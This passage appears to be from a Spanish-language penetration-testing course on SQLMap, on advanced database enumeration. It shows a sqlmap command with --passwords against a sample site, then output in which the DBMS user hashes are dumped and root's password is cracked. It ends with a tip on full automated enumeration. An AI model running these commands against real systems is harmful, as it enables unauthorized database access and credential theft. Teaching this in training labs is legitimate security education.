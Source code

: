 Enumeración avanzada de la base de datos

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch...SNIP...
[14:25:20] [INFO] fetching database users password hashes
[14:25:20] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'debian-sys-maint'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

[14:25:20] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:25:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass

[14:25:28] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 14:25:28 /2020-09-18/

```

Consejo: el interruptor '-All' en combinación con el interruptor '-batch', automáticamente (g) hará todo el proceso de enumeración en el objetivo en sí y proporcionará todos los detalles de enumeración.

Básicamente, esto significa que todo accesible se recuperará, potencialmente funcionando durante mucho tiempo. Tendremos que encontrar los datos de interés en los archivos de salida manualmente.